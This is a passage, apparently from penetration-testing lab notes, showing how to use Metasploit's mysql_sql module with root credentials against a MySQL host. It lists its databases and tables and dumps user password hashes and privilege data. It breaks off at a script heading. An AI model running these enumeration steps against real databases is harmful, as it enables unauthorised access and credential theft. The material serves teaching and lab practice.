 ## SQL Query Execution

### MySQL SQL Module

```bash
msf6 > use auxiliary/admin/mysql/mysql_sql
msf6 auxiliary(admin/mysql/mysql_sql) > show options

Module options (auxiliary/admin/mysql/mysql_sql):

   Name      Current Setting        Required  Description
   ----      ---------------        --------  -----------
   PASSWORD                         yes       The password for the specified username
   RHOSTS                           yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT     3306                   yes       The target port (TCP)
   SQL       select version()       no        The SQL query to execute
   USERNAME                         yes       The username to authenticate as

msf6 auxiliary(admin/mysql/mysql_sql) > set USERNAME root
msf6 auxiliary(admin/mysql/mysql_sql) > set PASSWORD twinkle
```

### Common SQL Queries for Enumeration

```bash
# Show databases
msf6 auxiliary(admin/mysql/mysql_sql) > set SQL "show databases;"
msf6 auxiliary(admin/mysql/mysql_sql) > run

[*] Sending statement: 'show databases;'...
[*]  | information_schema |
[*]  | mysql |
[*]  | upload |
[*]  | vendors |
[*]  | videos |
[*]  | warehouse |

# Show tables from specific database
msf6 auxiliary(admin/mysql/mysql_sql) > set SQL "use videos; show tables;"
msf6 auxiliary(admin/mysql/mysql_sql) > run

# Get user information
msf6 auxiliary(admin/mysql/mysql_sql) > set SQL "select user, host, password from mysql.user;"
msf6 auxiliary(admin/mysql/mysql_sql) > run

# Get database privileges
msf6 auxiliary(admin/mysql/mysql_sql) > set SQL "select * from mysql.db;"
msf6 auxiliary(admin/mysql/mysql_sql) > run
```

### Automated Database Exploration Script
